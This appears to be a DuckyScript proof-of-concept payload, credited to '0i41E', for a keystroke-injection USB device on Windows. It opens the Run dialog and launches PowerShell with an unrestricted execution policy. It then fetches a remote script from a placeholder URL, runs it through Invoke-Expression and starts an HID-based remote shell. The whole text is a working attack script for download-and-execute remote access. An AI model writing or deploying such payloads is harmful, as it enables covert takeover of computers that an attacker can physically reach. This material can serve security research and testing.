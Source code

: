 REM       HIDX_Stealth_Link_Remote_Access_PoC_IEX
REM       Version 1.0
REM       OS: Windows
REM       Author: 0i41E
REM       Requirements: Firmware Version 3.0 minimum, Universal Python Listener, Activated HIDX

REM       HID based remote shell, executed via powershell.

REM Define the URL where you hosted your PoC
DEFINE #URL https://example.com/

REM Define Keymap below
DUCKY_LANG us
DELAY 2000
GUI r
DELAY 500
STRINGLN powershell -executionpolicy unrestricted
DELAY 1000
REM Calling HIDX poc via Invoke-Webrequest and execute it via Invoke-Expression
STRINGLN Invoke-WebRequest -UseBasicParsing -Uri "#URL" | iex;HIDXShell